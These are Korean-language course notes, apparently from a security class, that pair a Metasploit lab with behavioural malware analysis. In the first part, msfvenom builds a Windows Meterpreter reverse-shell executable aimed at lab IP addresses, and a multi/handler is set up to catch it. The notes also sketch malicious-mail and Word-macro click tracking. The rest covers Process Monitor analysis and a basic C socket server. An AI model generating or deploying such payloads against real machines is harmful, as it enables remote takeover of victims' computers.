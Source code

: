 # DAY 2

## 공격자 공격 방법 종류
  - EXE 파일
    1. 악성코드 생성도구(metasploit): 서버 백신 //서버백식은 악성코드 못잡은 경우 O
    2. DLL Injection
  - URL
  - MACRO
  - 웹 취약점
  - 모바일

## metasploit
### command
```
service postgresql start
service metasploit start
msfconsole
```
실행 안 될 경우
find /usr -name dalvik.rb -print <- 설정 파일 검색
마지막 줄 cert.not_after = cert.not_before + 3600 * 24 * 365 * 20
20 -> 2로 변경 후 저장

### command
```
search (search adobe)
use (exploit/linux/browser/adobe_flashplayer_aslaunch)
use windows/meterpreter/reverse_tcp //특정 공간 선택할 수 있음
back (cancel)
show options
set lhost 10.10.10.10
exploit //공격,      +encoders: 특정 기호로 변경
shellcode
bind (->, inbound)
reverse (<-, outbound)
```

#### senario
```
공격자가 피해자의 연결을 대기한다.
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lport 7070
set lhost 10.0.2.15
exploit
```

#### 악성코드 생성
커널에서
```
msfvenom -l payloads
(msfvenom -p windows/meterpreter/reverse_tcp lhost=10.100.244.20 lport=7070 -f
c)
(msfvenom -p windows/meterpreter/reverse_tcp lhost=10.100.244.20 lport=7070 -f
apk)
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.100.244.20 lport=7070 -f
exe > mytext.exe
```
#### 공유폴더/파일전송
이더넷 인터페이스 통신으로 전송
```
file system/media/sf_폴더명
```
> mytext.exe 옮기니 알약이 감지함
> 백신 끄고 실행하니 쉘 따짐


### AI보안2일(5)
```
process Explorer, Process Monitior, Strings 설치 필요
```
process Explorer에서 
> mytest.exe를 실행하면(셀을 실행하면) cmd.exe -> conhost.exe 순서로 실행됨(이 두 개의 패턴이 반드시 나온다)

Process Monitior에서 Operation부분 보면
> Process Start: 프로세스 시작
> RegRegister, RegQuery: 레지스트리에서 환경 설정하는 값을 읽거나 썼다.
> TCP Conect: 통신 프로그램에서 클라이언트가 쓰는 명령어! -> 따라서 클라이언트임을 알 수 있음
Process Monitior에서 Detail-Event부분 보면
> path: 발신자의ip:6125-> 수신자의ip:7070 //1) 왼쪽에서 7070포트로 들어갔다, 2) 발신자와 수신자의 ip 모두 확인 가능
Detail-Process부분의 Modules 보면
> mswsock.dll, wsock32.dll : 통신 관련된 기능, 소켓!
Detail-Stack 보면 메모리 주소나 어떤 dll 썼는가 같은 정보 볼 수 있음
**Process Monitior에서 TCP copy, TCP receive 같은게 있는데 더블 클릭해서 Event Properties-> Stack에서 뭘 했는지 알아야 함!!
**
이제 이것을 보고 분석하면 행위가 됨!(행위 분석)
아까 백신이 잡은 것은 signiture -> 단순 문자열에 대한 분석이 었음

Process Monitior의 행위의 결과값 분석하는 법
> csv 파일로 저장
> csv 파일은 ,로 구분되는데 detail 내용 안에 ,가 들어있기 때문에 , 제거해야함 -> 1. 고정되지 않은 수의 ',' 제거하는 프로그램 개발 필요
> 2. 로그의 양이 많기 때문에 DB에 적재해야함!
> RegOPenKey, RegQueryValue, RegCloseKey -> 3개가 세트! : 목적) 레지스트리를 읽는다
>   이것을 변환 처리 해야하는데 위와 같이 둘 건지 RegRead 하나 두고 레지스트리를 읽었습니다 -> RegRead 1로 표현할 건지 결정해야함

> CreateFile 부분에서 dll 파일 생성한다는 부분 있는데 dll은 이미 있기 때문에 말이 안됨
> Detail 부분 보면 Read Attribute, Open -> 결론적으로 dll을 읽었다!는 뜻 => Create File이 아니라 Read File로 이름 바꾸는게 정확
> => EDR, APT 솔루션 이미 있음

#### 결론(해야 할 것)
- 행위분석 수집 로그 프로그램 개발 //프로세스 모니터 자체를 개발 해야함
- 전처리 프로그램 개발(A ->1, NULL, 이상치) 
- 데이터분석

* 메모리, 시그니처 분석
ex. process Explorer와 메모장   
process Explore에서 메모장 우클릭->properties   
  - 통신 안하니깐 TCP 부분 비어 있음   
  - Thread 부분 켜놓고, 메모징 저장 누르면 이 과정 Thread 부분에 동적으로 추가됨    
      -> 윈도우는 동적으로 동작하기 때문에 내가 실행할 때 dll 임의로 추가할 수 있음 => DLL Injection   
  
#### 악성코드 메일 공격 방식
> 메일 자동 전송 1:다 공격 가능
> 수신확인 - 스크립트(html)
> 파이썬 코드로 메일 전송 가능(mime)

#### 워드 매크로(CDR?)
passwordchecker procexp에서 full dump 후 strings로 분석   
strings PasswordChecker.dmp > a.txt    
비밀번호, 메세지 등 문자열로 저장되어 있음    
활용 ex    
> c소켓 프로그래밍 <- 서버
> 워드 매크로 <- 클라이언트
> 악성 메일 보내서 클릭 여부 확인 가능

주체: 행위, 메모리, 실행파일    
환경: 얘도 알아야    



![day2_2](https://user-images.githubusercontent.com/50771111/88466051-756ab380-cf03-11ea-972a-a8c19b88ad2f.jpg)



### 서버
#### test123.c //server.c
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>
#include <sys/types.h>
#include <sys/socket.h>

#define  BUFF_SIZE   1024

int   main( void)
{
   int   server_socket;
   int   client_socket;
   int   client_addr_size;
   struct sockaddr_in   server_addr;
   struct sockaddr_in   client_addr;
   char   buff_rcv[BUFF_SIZE+5];
  server_socket  = socket( PF_INET, SOCK_STREAM, 0); //소켓 만듦
   memset( &server_addr, 0, sizeof( server_addr));
   server_addr.sin_family     = AF_INET; //인터넷
   server_addr.sin_port       = htons(7070); //포트 7070 -> 서버
   server_addr.sin_addr.s_addr= htonl( INADDR_ANY); //0.0.0.0 누구나 연결할 수 있음
bind( server_socket, (struct sockaddr*)&server_addr, sizeof( server_addr)); //위에서 세팅한 값 적용(bind)
listen(server_socket, 5); //최대 5명까지 붙을 수 있음
client_socket     = accept( server_socket, (struct sockaddr*)&client_addr, &client_addr_size); //accept : 기다리는 중
      read ( client_socket, buff_rcv, BUFF_SIZE);
      printf( "receive: %s\n", buff_rcv);
 close( client_socket);
 close(server_socket);
}
```

